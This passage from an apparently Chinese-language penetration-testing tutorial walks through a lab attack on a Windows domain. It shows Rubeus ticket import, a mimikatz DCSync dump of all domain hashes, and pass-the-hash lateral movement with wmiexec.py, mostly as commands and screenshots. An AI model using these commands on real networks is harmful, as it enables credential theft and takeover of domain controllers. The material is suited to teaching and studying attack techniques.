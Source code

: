 执行完成后我们发现hash.txt中有数据了，把它下载下来  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU72t58OdM7eXw3jmkehib6E4faF1zcYCtEYMvD2pHfBj0oquBYvhlNichQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7GOQu4RPH8AUVrl3DduAiaibhUZKqB2icFOgsllQMkwdSymceic6TJlzAyg/640?wx_fmt=png&from=appmsg "")  
  
  
这个票据其实就是域控的票据，然后接下来我们通过Rubeus将票据导入到内存中  
  
  
2、Rubeus监听到票据并导入该票据（域内用户进行）  
  
  
shell Rubeus.exe ptt /ticket:xxx  
  
  
为什么不用mimikatz导入呢？因为它的数据格式，它是由Rubeus监听得到的，自然就要用他来导入了。  
  
  
我们注意将hash.txt中的票据处理一下换行  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7gkwxoleqmAFM2rL1SJEC24Q49bk6lN2RcsJKgEfScoxfKnZv4vKM4g/640?wx_fmt=png&from=appmsg "")  
  
  
将票据成功导入到内存中，接下来可以用mimikatz导出内存中的hash！  
  
  
3、使用mimikatz导出域内Hash（域内用户进行）  
  
  
mimikatz lsadump::dcsync /domain:xiaodi8.com /all /csv  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7vsEAx1w96BS4jYibRSgXTucqe45hN5d8UktxL767bcZlfQibmf7HUjFQ/640?wx_fmt=png&from=appmsg "")  
  
  
成功获取到hash，那么接下来我们可以通过之前说过的基于口令凭据，利用hash来进行横向移动  
  
  
4、使用wmi借助hash横向移动  
  
  
python wmiexec.py -hashes :e6f01fc9f2a0dc96871220f7787164bd xiaodi8.com/administrator@dc.xiaodi8.com -no-pass  
python wmiexec.py -hashes :e6f01fc9f2a0dc96871220f7787164bd xiaodi8.com/administrator@192.168.139.11 -no-pass  
  
  
此处我用上面的不行，改成下面的ip形式则可以。要改hosts文件才能用上面那种！否则解析不了域名！会解析到外网去。  
  
  
想要知道域控ip也很简单  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7sxOombv3icGjYTumaiaT5qBf4gOtxo537FHNQpXtBGk6YG1fHibwRlphA/640?wx_fmt=png&from=appmsg "")  
  
  
使用域名的结果：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7KTTZdU6zbR47rghY5EVoYqOkibd7iaibYPKpyoQ85shvsW5HJmxnpSw5A/640?wx_fmt=png&from=appmsg "")  
  
  